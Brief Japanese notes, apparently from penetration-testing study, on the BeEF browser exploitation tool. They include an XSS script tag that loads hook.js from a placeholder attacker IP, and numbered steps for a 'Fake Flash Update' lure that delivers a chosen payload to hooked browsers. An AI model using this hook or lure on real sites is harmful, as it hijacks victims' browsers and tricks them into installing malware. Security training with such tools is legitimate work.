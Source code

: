 # BeEF

* ブラウザ向けの脆弱性を検証するツール(XSS)
* メニューから`Beef start`を選択
* XSSでBeEFのスクリプトを実行させて制御を奪う
    `<script src=http://攻撃端末のIPアドレス:3000/hook.js></script>`

## XSS 一例

1. online browsersからターゲットを選択
2. Commandsタブ
3. Social Engineeringを選択
4. Fake Flash Updateを選択
5. 自前のwebサーバー起動 Python
6. Imageは適当な画像
7. Custom Payload URLは送りこみたいペイロードを指定
8. Executeをクリック
9. これでwebページの改ざんはできる(hook.jsを埋め込める)
